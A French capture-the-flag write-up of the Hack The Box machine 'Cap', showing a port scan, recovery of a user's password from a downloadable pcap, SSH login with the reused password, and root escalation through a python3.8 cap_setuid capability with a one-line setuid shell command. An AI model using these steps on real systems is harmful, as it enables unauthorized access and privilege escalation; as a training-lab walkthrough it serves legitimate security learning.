 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
date: 2023-09-08
tags: [HTB, Easy, Writeup, French]
type: post
image: /images/cap/cap.png
showTableOfContents: true
---
```

![HTB Cap Image](/images/cap/cap.png)
# nmap
On va tout d’abord scanner les ports ouverts de l’ip:
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
Sur le site, on remarque qu'on est connecté de base à l'utilisateur "Nathan".
On trouve ensuite que le site permet de télécharger des trames réseaux:
http://10.10.10.245/data/0

On download le pcap numero 0 et on l'analyse ensuite avec Wireshark:
![pcap](/images/cap/pcap.png)

On trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
Le mot de passe ftp de Nathan et le même que sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilités liées aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit tout de suite ici que python3.8 est sûrement vulnérable à un exploit de type setuid. 
On peut trouver les exploits de capabilities sur [gfobins](https://gtfobins.github.io/gtfobins/python/#capabilities):
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
Il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```